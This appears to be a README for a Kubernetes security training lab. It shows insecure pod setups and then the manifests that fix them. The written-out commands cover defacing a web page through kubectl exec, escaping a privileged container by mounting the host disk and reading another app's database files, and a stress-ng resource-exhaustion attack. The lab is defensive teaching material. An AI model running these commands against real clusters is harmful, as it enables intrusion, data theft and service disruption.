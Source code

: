 # Example fix1, fix2

1. Execute:
```shell
    kubectl apply -f devops/k8s/manifests/k01/hack.pod.yaml
    kubectl get pods
    kubectl port-forward pod/hackme-app 8080:80
```

3. Visit localhost:8080

4. Execute:
```shell
    kubectl exec hackme-app -- bash -c "echo '<\!DOCTYPE html><html lang=\"en\"><head><style> body { align-items: center; background-color: black; display: flex; height: 100vh; justify-content: center; } </style></head><body><img src=\"https://raw.githubusercontent.com/tomasz2101/html5-hackme-app/main/app/src/assets/img/h1sub.png\"></body></html>' > /usr/share/nginx/html/index.html"
```

5. Visit localhost:8080

## Fixing application

1. Execute:
```shell
    kubectl delete pod hackme-app
    kubectl apply -f devops/k8s/manifests/k01/fix1.pod.yaml
    kubectl apply -f devops/k8s/manifests/k01/fix2.pod.yaml
```


# Example fix3
1. Execute:
```shell
    kubectl apply -f devops/k8s/manifests/k01/hack3.pod.yaml
    kubectl apply -f devops/k8s/manifests/k01/second-app.yaml
    kubectl port-forward pod/todo-app 8081:8000
    kubectl exec -it hackme-app -- bash

    df -h
    mkdir /tmp/host-fs
    mount /dev/sde /tmp/host-fs/
    find . -name "*.db"
    cd $directory
    cat 000000000.data
```

## Fixing application

```shell
    kubectl delete pod hackme-app
    kubectl apply -f devops/k8s/manifests/k01/fix3.pod.yaml
```

# Example fix4

2. Execute:
```shell
    kubectl apply -f devops/k8s/manifests/k01/hack.pod.yaml
    
```
```shell
# Terminal no. 1
kubectl exec -it hackme-app -- htop

# Terminal no. 2
kubectl exec hackme-app -- stress-ng --cpu 8 --vm 4 --vm-bytes 2G --timeout 30s
```

## Fixing application

```shell
    kubectl delete pod hackme-app
    kubectl apply -f devops/k8s/manifests/k01/fix4.pod.yaml
```
